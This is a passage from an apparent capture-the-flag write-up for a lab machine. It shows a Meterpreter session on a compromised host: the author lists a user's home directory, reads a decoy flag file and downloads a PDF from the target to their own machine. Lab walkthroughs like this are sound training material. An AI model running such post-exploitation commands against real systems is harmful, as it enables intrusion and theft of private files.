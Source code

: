 ````commandline
100644/rw-r--r--  3771   fil   2018-04-04 20:30:26 +0200  .bashrc
40700/rwx------   4096   dir   2020-05-25 15:15:58 +0200  .cache
40700/rwx------   4096   dir   2020-05-25 15:15:58 +0200  .gnupg
100644/rw-r--r--  807    fil   2018-04-04 20:30:26 +0200  .profile
100644/rw-r--r--  0      fil   2020-05-25 15:16:22 +0200  .sudo_as_admin_successful
100644/rw-r--r--  69106  fil   2020-05-26 20:33:24 +0200  Billy_Joel_Termination_May20-2020.pdf
100644/rw-r--r--  57     fil   2020-05-26 22:08:47 +0200  user.txt

meterpreter > cat user.txt
You won't find what you're looking for here.

TRY HARDER
````

Arf, we don't have the `user.txt` flag. Let's download that pdf file!

````commandline
meterpreter > download Billy_Joel_Termination_May20-2020.pdf
[*] Downloading: Billy_Joel_Termination_May20-2020.pdf -> /home/itchy/Documents/THM/blog/Billy_Joel_Termination_May20-2020.pdf
[*] Downloaded 67.49 KiB of 67.49 KiB (100.0%): Billy_Joel_Termination_May20-2020.pdf -> /home/itchy/Documents/THM/blog/Billy_Joel_Termination_May20-2020.pdf
[*] download   : Billy_Joel_Termination_May20-2020.pdf -> /home/itchy/Documents/THM/blog/Billy_Joel_Termination_May20-2020.pdf
````

Looking at that PDF file, looks like `bjoel` got fired from the company `Rubber Ducky Inc.`. Looking this up on the internet, and found in the first hits the `USB Rubber Ducky - Hak5`. A website who sell whatever, fancy toys for hackers. This [Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) is about a USB key... No comments.
